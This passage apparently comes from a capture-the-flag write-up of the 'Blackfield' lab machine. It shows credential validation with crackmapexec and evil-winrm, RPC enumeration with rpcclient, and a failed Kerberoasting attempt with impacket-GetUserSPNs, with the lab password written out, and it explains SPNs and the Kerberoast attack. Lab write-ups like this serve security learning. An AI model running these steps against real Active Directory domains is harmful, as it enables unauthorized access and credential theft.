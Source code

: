 Now that I have a credential, the first thing I do is validate it with `crackmapexec` using the **SMB** protocol and then **WinRM** to check if I can access the **Domain Controller**. <ins>The credential is valid</ins> but it seems that the account does not belong to the Remote Administration group, now if I can enumerate **RPC** with `rpcclient` but I can't find anything interesting at the moment. If I use the `GetUserSPNs.py` script to try to get the password hash of the **support** user, in case the account have a **SPN** but it is not the case and finally with `evil-winrm` I can't connect either.

> A **[service principal name (SPN)](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names){:target="_blank"}** is a unique identifier of a service instance. **Kerberos** authentication uses **SPNs** to associate a service instance with a service sign-in account. Doing so allows a client application to request service authentication for an account even if the client doesn't have the account name.

> **[GetUserSPNs.py](https://tools.thehacker.recipes/impacket/examples/getuserspns.py){:target="_blank"}** can be used to obtain a password hash for user accounts that have an **SPN** (service principal name). If an **SPN** is set on a user account it is possible to request a **Service Ticket** for this account and attempt to crack it in order to retrieve the user password. <ins>This attack is named **Kerberoast**</ins>. This script can also be used for **Kerberoast** without preauthentication.

```bash
crackmapexec smb 10.10.10.192 -u 'support' -p '#00^BlackKnight'           # :)
crackmapexec winrm 10.10.10.192 -u 'support' -p '#00^BlackKnight'         # :(
evil-winrm -i 10.10.10.192 -u 'support' -p '#00^BlackKnight'              # :(
rpcclient -U "support" 10.10.10.192
    > enumdomusers
    > enumdomgroups
    > queryuser support
    > queryuser 0x451
    > queryuser lydericlefebvre

rpcclient -U "support%#00^BlackKnight" 10.10.10.192 -c 'enumdomusers'

impacket-GetUserSPNs --help
#    --> Queries target domain for SPNs that are running under a user account

impacket-GetUserSPNs blackfield.local/support:#00^BlackKnight
#    --> No entries found!           Not kerberoasteble!
```

<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/blackfield_writeup/Blackfield_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
